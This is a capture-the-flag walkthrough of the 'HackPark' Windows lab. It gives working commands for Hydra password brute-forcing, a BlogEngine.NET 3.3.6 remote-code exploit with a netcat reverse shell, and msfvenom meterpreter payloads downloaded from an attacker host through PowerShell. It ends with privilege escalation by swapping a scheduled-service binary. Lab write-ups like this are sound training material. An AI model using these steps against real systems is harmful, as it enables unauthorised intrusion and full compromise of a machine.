 # HackPark

### **Tasks**:

1. **Deploy the vulnerable Windows machine**:
   1. Deploy the machine do usual nmap scan with `nmap --script=vuln -T5 -sV ip` ,port 80,3389 open. Visit ip in browser , do reverse image search of image displayed and submit answer.
2. **Using Hydra to brute-force a login**:
   1. Go to login page , enter dummy username and password and send request to repeater in burp.
   2. Attack login page using `hydra hydra -l admin -P /usr/share/wordlists/rockyou.txt ip http-post-form "PATH_TO_LOGIN:POSTDATA REPLACE USERNAME/PASSWORD WITH ^USER^/^PASS^:STRING IN FAILED LOGIN PAGE"` - 1qaz2wsx
3. **Compromise the machine**:
   1. Login using password cracked above, there is about page in admin which displays BlogEngine.NET v3.3.6.0 is used, Use searchsploit for exploits.
   2. `searchsploit blogengine 3.3.6 remote` - Get RCE vulnerability id and run `searchsploit -x 46353` to get CVE details. Copy the exploit code to root directory `cp "/root/Desktop/Additional Tools/searchsploit/exploits/aspx/webapps/46353.cs" .` and change attacker ip and port in the script.
   3. Go to create new post, open file manager icon and upload the script after renaming it to PostView.aspx as per the information and publish the post.
   4. Start netcat listener in attacker machine port 4445 and open http://ip/?theme=../../App\_Data/files in browser to get shell in netcat session.
4. **Windows Privilege Escalation**:
   1. Start metasploit listener  using msfconsole  `use /exploit/multi/handler`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `set LHOST ATTACKERIP`, `set LPORT ATTACKERPORT` & `run`
   2. Generate payload for windows using `msfvenom - msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKERIP LPORT=4446 -e x86/shikata_ga_nai -f exe -o shell.exe` and start python http server in attacker machine , upload the shell using `powershell -c wget "http://ATTACKERIP:8080/shell.exe" -outfile "shell.exe"` in victim machine and run `shell.exe` in victim machine to get meterpreter session.
   3. upload [winpeas.exe](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/x86/Release/winPEASx86.exe) using meterpreter session , `shell` to get cmd, `winpeas.exe servicesinfo` to know if we could exploit any services - WindowsScheduler, File Permissions: Everyone \[WriteData/CreateFiles], WService.exe is service binary we need to exploit but it gives error when submitted , Go to event logs(hint) `cd "C:\Program Files (x86)\SystemScheduler\Events"` and `type 20198415519.INI_LOG.txt` - Message.exe is the answer.
   4. Generate another malicious exe with name Message.exe and start another meterpreter listener at 4447. Upload Message.exe to C:\Program Files (x86)\SystemScheduler - You will get system shell when Message.exe is run by  WindowsScheduler service next time.
   5. Run `shell` , `type C:\Users\jeff\Desktop\user.txt`, `type C:\Users\Administrator\Desktop\root.txt` to get cmd, user and root flag & submit !!!
5. **Privilege Escalation Without Metasploit**:
   1. Instead of meterpreter listener we can use netcat as listener and set payload in msfvenom to windows/shell\_reverse\_tcp.
   2. You can host winpeas.exe using python and download into victim machine or download binary/bat from internet directly using powershell and wget and execute winpeas .
